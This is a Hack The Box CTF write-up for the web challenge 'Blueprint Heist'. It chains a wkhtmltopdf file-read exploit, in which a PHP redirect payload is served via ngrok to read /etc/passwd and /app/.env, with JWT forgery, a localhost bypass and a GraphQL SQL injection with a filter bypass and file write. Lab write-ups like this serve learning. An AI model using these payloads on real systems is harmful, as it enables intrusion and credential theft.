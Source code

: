 
---

# 🐧 Penguin's Offensive Security — HTB CTF Writeup

## Challenge Name: Blueprint Heist  
**Platform:** Hack The Box  
**Category:** Web  
**Difficulty:** Medium  
**Exploit Type:** Vulnerability Chaining

* Programming (JavaScript, EJS, SQL)
* Understanding of JWT Tokens
* Identification and exploitation of known vulnerable software
* Vulnerability chaining

---

### 📖 Description

Greetings and welcome to the world of **Penguin's Offensive Security**!

This repository contains the write-up for the Hack The Box CTF challenge titled **Blueprint Heist**. This is a medium-level, web-based challenge.

---

## 🕳️ Vulnerabilities Exploited

* `wkhtmltopdf` v0.12.5 (RCE)
* Local File Inclusion (LFI) to expose JWT secret
* SQL Injection (SQLi) to write files
* Misconfigured JWT validation logic

---

## 🌐 Website Overview

![Image1](/imgs/1.png)
The landing page contains two links.

Inspecting the source code (not fully discussed here due to length):

![Image2](/imgs/2.png)
The `authcontroller` checks only for the `admin` value in the JWT token — no additional checks.

![Image3](/imgs/3.png)
In `/app/.env`, the **JWT secret key** is exposed. Also note:

* The **database user is `root`**, which has full write permissions — critical for later RCE.
* This can eventually lead to **remote code execution**.

---

## ⚙️ Exploitation Process

### 🔎 Initial Recon

Clicking the first link and observing with Burp Suite reveals the following routes:

1. `/getToken` – Generates a **guest JWT token**
2. `/download?token=xyz` – Downloads a PDF using the provided token

![Image4](/imgs/4.png)
Sending request 2 to Repeater shows an error after some time — this error leaks the `wkhtmltopdf` version.

---

## 🚀 Exploiting wkhtmltopdf

Searching for the exploit online leads to an RCE vulnerability.

### Exploit Setup

```bash
# Step 1: Navigate to your web directory
cd /var/www/html

# Step 2: Create an exploit file
nano exp.php
# Paste the following payload:
# <?php header('location:file://'.$_REQUEST['x']); ?>

# Step 3: Save and close (Ctrl + O, then Ctrl + X)

# Step 4: Start a PHP server
php -S 0.0.0.0:8000

# Step 5: Start ngrok to expose local server
ngrok tcp 8000
```

### Exploitation Steps

* Replace `tcp://` with `http://` in the ngrok URL, e.g.:
  `http://<your-ngrok-url>/exp.php?x=/etc/passwd`

![Image5](/imgs/5.png)
Access this URL via the `url` parameter in `/download`. You’ll get a 200 OK response with a PDF showing the file contents.

![Image6](/imgs/6.png)
Now use this method to read `/app/.env`:

![Image7](/imgs/7.png)
You'll extract the **JWT secret key** here (hidden to let you try it).

---

## 🔐 JWT Token Forgery

With the secret key:

1. Visit [jwt.io](https://jwt.io/)
2. Paste your guest token and the secret key
3. Modify the payload to `"role": "admin"`
4. Copy the newly signed token

![Image8](/imgs/8.png)

---

## 🧱 Bypassing Internal-Only Access

Accessing `http://challenge-url:1337/admin?token=admin-token` throws an **"Only For Internal Users"** error.

Code snippet from `/app/utils/security.js`:

```js
function checkInternal(req) {
    const address = req.socket.remoteAddress.replace(/^.*:/, '');
    return address === "127.0.0.1";
}
```

### 💡 Solution

Modify the `url` parameter to:

```
http://localhost:<port>/admin?token=admin-token-here
```

![Image9](/imgs/9.png)
![Image10](/imgs/10.png)

This will return a downloadable HTMLtoPDF file with a `username` parameter which we will use to test SQLi.
![Image10=1](/imgs/11.png)

---

## 🧬 SQL Injection to RCE & Flag Retrieval

Now access `/graphql` using:

* `token` (admin JWT)
* `query` (GraphQL injection payload)

### 🔥 Regex-Based Filter Bypass

The following function tries to detect SQLi:

```js
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'",.<>\/?]/;
    return pattern.test(query);
}
```

To bypass, use escape sequences:

```graphql
"a\u000d\u000a"
```

### 🔓 Payload Format

```graphql
{
  getDataByName(name:"<injection here>") {
    name
    department
    isPresent
  }
}
```

Try:

* `ORDER BY` or `GROUP BY` to determine column count
* `UNION SELECT` to find injectable columns
* `INTO OUTFILE` to write data into known error logs

![Image12](/imgs/12.png)
![Image13](/imgs/13.png)

---

## 🏁 Conclusion

After chaining LFI, JWT manipulation, internal access bypass, and SQLi with file write, you should be able to read the final flag.

**Congratulations — you captured the flag! 🎉**

---

